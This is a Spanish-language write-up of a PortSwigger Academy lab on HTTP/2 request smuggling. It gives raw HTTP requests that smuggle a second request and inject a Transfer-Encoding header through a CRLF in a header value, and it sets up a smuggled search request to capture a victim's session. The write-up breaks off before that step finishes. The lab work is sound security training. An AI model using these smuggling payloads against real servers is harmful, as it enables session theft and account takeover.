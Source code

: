 **Lab Description**
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to [the documentation](https://portswigger.net/burp/documentation/desktop/http2) for details on how to use them.

### Confirmar vulnerabilidad
**preparación del burpsuite**
Para este laboratorio interceptamos la raíz, la ruta "/", cambiamos el método a POST, hacemos click en settings, que tiene el logo de un engranaje, le sacamos el "update Content-Length" para que no nos este generando esta cabecera con el valor del boy automáticamente.
Mandamos la siguiente petición:
```
POST / HTTP/2
Host: 0a4200f80467d2a182b592c700fb000a.web-security-academy.net
Cookie: session=GunVXRbhYALhXLBlSuI4fgE4MM4vLknR;
Transfer-Encoding: chunked

0

GET /hopefully404 HTTP/1.1
X-Ignore: x
```
Pero la segunda petición no nos da un 404. Cuando el servidor rescribe la solicitud de http2 a http1.1 esta despojandose (stripping away) del transfer encoding, así que tenemos que buscar otra manear de contrabandear el transfer-encode header, para eso vamos a la columna derecha y le damos a agregar una nueva "Request headers"
![[Pasted image 20240816201826.png]]
Y agregamos una nueva cabecera
![[Pasted image 20240816201935.png]]
En el campo name iría la cabecera, en este caso "foo" y value es, valga la redundancia, el valor de ese header, en este caso Transfer-Encoding: chunked
![[Pasted image 20240816202003.png]]
Le damos un name, una cabecera con + CRLF, con enter + shift, y lo que sucede acá es que, nos esta interpretando el espacio en blanco y convierte la solicitud en un HTTP/1.1. Si no está despojandose de este.
Creamos lo que se llama una kettled request, la cual se representa como si fuera una solicitud aparte, pero en realidad es una cabecera la cual, dentro de su value, tiene un enter (crlf) y transfer encoding, lo que puede hacer que el servidor lo interprete como un header más.

Ahora tenemos que descifrar una manera de explotarlo, como siempre **revisamos cada ruta** y existe una de búsqueda
```
POST / HTTP/1.1
Host: 0abf00ab04eb7e07819e364a00b80025.web-security-academy.net
Cookie: session=zDVOCa0iwgUKSpaeNqSCKGbbnH5ghSvh; 
Content-Length: 10
Content-Type: application/x-www-form-urlencoded

search=asd
```
Que recibe un texto plano y lo escribe
Así que envíamos esta solicitud:  
```
0

POST / HTTP/1.1
Host: 0abf00ab04eb7e07819e364a00b80025.web-security-academy.net
Cookie: session=zDVOCa0iwgUKSpaeNqSCKGbbnH5ghSvh; 
Content-Length: 1000
Content-Type: application/x-www-form-urlencoded

search=asd
```
